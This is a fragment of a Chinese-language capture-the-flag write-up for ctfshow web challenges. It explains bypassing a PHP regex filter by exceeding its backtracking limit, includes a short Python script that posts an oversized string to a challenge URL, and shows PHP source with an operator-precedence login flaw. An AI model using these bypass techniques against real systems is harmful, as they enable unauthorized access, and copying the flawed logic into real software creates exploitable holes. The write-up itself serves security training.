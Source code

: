 利用正则最大回溯次数绕过

https://www.laruence.com/2010/06/08/1579.html

在php中正则表达式进行匹配有一定的限制，超过限制直接返回false

写个py脚本：

```python
import requests

url = "http://b6f3a9c0-3da1-44b5-8cee-fedece8ae121.chall.ctf.show/"

param = "very"*250000+"36Dctfshow"
data = {
    'f':param,
}
print(param)
reponse = requests.post(url=url,data=data)
print(reponse.text)
```

得到Falg

## web132~运算符 && ||

打开是一个网站。

直接扫目录,扫到 `/admin/`

```php
<?php

#error_reporting(0);
include("flag.php");
highlight_file(__FILE__);


if(isset($_GET['username']) && isset($_GET['password']) && isset($_GET['code'])){
    $username = (String)$_GET['username'];
    $password = (String)$_GET['password'];
    $code = (String)$_GET['code'];

    if($code === mt_rand(1,0x36D) && $password === $flag || $username ==="admin"){
        
        if($code == 'admin'){
            echo $flag;
        }
        
    }
}

```

if绕过
